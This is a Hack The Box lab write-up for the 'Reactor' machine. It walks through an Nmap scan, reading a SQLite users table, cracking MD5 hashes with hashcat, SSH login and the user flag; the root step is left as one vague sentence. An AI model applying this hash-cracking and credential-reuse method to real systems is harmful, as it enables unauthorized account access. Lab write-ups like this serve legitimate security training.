








# Hack The Box - Reactor

## Overview
**Machine:** Reactor  
**Platform:** Hack The Box  
**OS:** Linux  
**Difficulty:** Easy/Medium
---



## 1. Enumeration
Start with an Nmap scan:

```bash
nmap -sV 10.129.245.214
```


The scan reveals two interesting ports:
```bash
22/tcp    open    ssh
3000/tcp  open    unknown
```

Port 22 is running:
```bash
OpenSSH 9.6p1 Ubuntu
```
Port 3000 identifies itself as a Next.js application:
```bash
X-Powered-By: Next.js
```
The Nmap response also reveals that the application is returning normal HTTP responses.
So the initial attack surface is:
```bash
22   → SSH
3000 → Next.js web application
```

## 2. Investigating the Web Application



Opening the application on port 3000 shows that it is a Next.js application.
The JavaScript source also contains:

```bash
rendererPackageName: 'react-dom'
version: '19.0.0-rc-66855b96-20241106'
```

This identifies the React/React-DOM version used by the application.

The important lesson here is that seeing react-dom in JavaScript doesn't automatically mean that React itself is the vulnerability. It is simply one of the libraries used by the Next.js application.

## 3. Finding the SQLite Database





A database file named:
```bash
reactor.db
```
was obtained during enumeration.

SQLite databases can be inspected directly using:

```bash
sqlite3 reactor.db
```

Check the available tables:
```bash
.tables
```

Output:
```bash
sensor_logs  users
```
The users table can be examined with:
```bash
.schema users
```
Which gives:
```bash
CREATE TABLE users (
    id INTEGER PRIMARY KEY,
    username TEXT NOT NULL,
    password_hash TEXT NOT NULL,
    role TEXT NOT NULL,
    email TEXT
);
```
Now dump the records:
```bash
SELECT * FROM users;
```
The database contains with hashes
The passwords are not stored in plaintext.

Both hashes are 32 hexadecimal characters, making MD5 a likely candidate.

## 4. Cracking the Password Hash



Create a file containing the hashes. Hashcat mode 0 corresponds to raw MD5.
A larger wordlist was used:
```bash
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt
```
one hash was recovered

## 5. SSH Access

Since SSH was open on port 22, try the recovered credentials.
The login succeeds.
Check the current user:
```bash
whoami
```
Check the user's groups:
```bash
id
```
Output includes:
```bash
uid=1000(engineer)
gid=1000(engineer)
groups=1000(engineer),4(adm),24(cdrom),30(dip),46(plugdev),101(lxd)
```

## 6. User Flag



The home directory contains:
```bash
ls
```
Output:
```bash
user.txt
```
Read the flag:
```bash
cat user.txt
```
This gives the user flag.




## 7. Root
Once the root Node Inspector is successfully controlled, the final privilege escalation is achieved through the root Node.js process.


